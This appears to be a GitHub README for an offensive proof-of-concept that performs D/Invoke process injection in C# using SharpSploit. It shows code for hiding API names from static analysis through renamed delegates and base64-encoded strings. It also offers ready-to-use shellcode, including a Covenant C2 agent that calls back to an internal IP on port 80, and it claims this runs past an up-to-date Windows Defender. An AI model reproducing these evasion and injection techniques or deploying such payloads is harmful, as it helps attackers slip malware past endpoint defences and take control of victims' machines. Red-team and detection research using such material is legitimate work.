


# Hardened Proof of Concept (PoC) of D/Invoke Process Injection logic

This technique implementation uses SharpSploit v1.6 features created by @theRealWover and @FuzzySec.  
Initial code credits go to @RastaMouse for providing Proof of Concept in his blogpost: https://rastamouse.me/blog/process-injection-dinvoke/.


Provided PoC unhooks Win API methods used and clears import table by never describing used API calls (whereas P/Invoke imports necessary API calls during runtime).

This repository supplements previously mentioned work with:

1. Additional obfuscation;
2. Ready to use PoC files;


# 1. Additional obfuscation

Still, any of API methods out of described chain appears in raw PE file as a string:



In order to avoid this behavior it is possible to change delegate names and implement base64 encoding of API strings.

## A. Change of delegate names.
Intended D/Invoke way:
```
[UnmanagedFunctionPointer(CallingConvention.StdCall)]
delegate IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);
```

Obfuscated way:
```
[UnmanagedFunctionPointer(CallingConvention.StdCall)]
delegate IntPtr OpPr(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);
```


## B. Change of API method pointer query.
Intended D/Invoke way:
```
var pointer = Generic.GetLibraryAddress("kernel32.dll", "OpenProcess");
```

Obfuscated way:
```
string op = "T3BlblByb2Nlc3M="; // echo -n "OpenProcess" | base64
byte[] openc = System.Convert.FromBase64String(op);
string opdec = Encoding.UTF8.GetString(openc);
var pointer = Generic.GetLibraryAddress("kernel32.dll", opdec);
```

PE after obfuscation:  


# 2. Ready to use PoC files

## Show Pid

Most obvious way to see successful injection is to display banner with current process ID.
This may done by `Tests_showPid/show_Pidx64.bin.b64` as seen in image above.


## Covenant agent

Provided shellcode is build manually using donut's Python module and makes callback to `192.168.56.110:80` using DefaultHTTPProfile.
Execution with up to date fully functional Windows Defender:



